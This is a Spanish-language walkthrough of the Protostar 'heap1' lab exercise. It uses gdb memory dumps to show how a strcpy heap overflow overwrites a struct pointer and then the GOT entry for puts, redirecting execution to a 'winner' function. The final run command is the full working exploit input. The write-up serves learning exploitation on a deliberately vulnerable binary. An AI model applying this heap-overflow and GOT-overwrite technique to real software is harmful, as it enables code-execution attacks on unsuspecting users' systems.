 # Heap buffer overflow

[heap1](#https://exploit.education/protostar/heap-one/)


Para entender esto es muy importante ver como funciona el [heap](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Estructura%20de%20un%20binario.md#el-heap)

```console
(gdb) disas main
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    0x14, [esp]

(gdb) b *0x080484ce # Ponemos un breakpoint despues del primer malloc
(gdb) b *0x080484e8 # Tambien otros con los otros 3 mallocs y el strcy (0x080484fd, 0x08048517, 0x0804853d, 0x0804855a)
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF 0000111122223333
(gdb) info proc map   
         0x804a000  0x806b000    0x21000          0           [heap]   # El heap está en  0x804a000

(gdb) define hook-stop
>x/64wx 0x804a000  # Vamos a observar como va evolucionando el heap
>end

# Primer malloc c9 -> ce
0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000

# Segundo malloc e3 -> e8
0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000

(gdb) set $i1 = (struct internet*)0x804a008   # Tambien observaremos el struct u objeto "internet"

# Tercer malloc f8 -> fd
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a030:      0x00000000      0x00020fd1      0x00000000      0x00000000

(gdb) p *$i1   # internet = {priority = 1, name = 0x804a018 ""}
 
Cuarto malloc 12 -> 17
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x00000000
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

Strcpy 38 -> 3d
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
0x804a020:      0x43434343      0x44444444      0x45454545      0x46464646
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

(gdb) p *$i1 
$6 = {priority = 1, name = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"}
```
Como se puede ver el strcpy ha empezado a escribir en  0x0804a018, pero al no acabarse (overflow), ha desbordado el chunk siguiente, en concreto el que 
correspondia al segundo objeto, la parte de nombre y que almacenaba la dirección donde se escribiría este (dada por el malloc). Por tanto colpasa con 
un SEGFAULT ya que la memoria "0x46464646" no existe (las "F")

Es decir, el primer argumento "AAAABBBBCCCCDDDDEEEEFFFF" acaba siendo "¿Donde escribir?" por ser taaan largo.

```console
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII 0000111122223333
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff8ad "0000111122223333") at strcpy.c:40
```
El segundo argumento por tanto es ¿que escribir? Y aquí es como podemos abusar de la [Global Offset Table](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Format_strings.md#sobreescribir-la-got-para-saltar-a-la-funcion-que-queramos)
> tabla donde estan las direcciones de las funciones, las escribe una funcion del sistema, pero tambien la podemos escribir nosotros con la funcion que
> nos de la gana ejecutar en lugar de la funcion buena.

```console
[cucuxii]:$ objdump -D ./heap1
08048494 <winner>:        # -> \x94\x84\x04\x08
[cucuxii]:$ gdb ./heap1
(gdb) disas main
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
0x080483cc <puts@plt+0>:        jmp    *0x8049774   # -> \x74\x97\x04\x08

(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1657877687   # echo -ne -> sin salto de linea y formato bytes
```



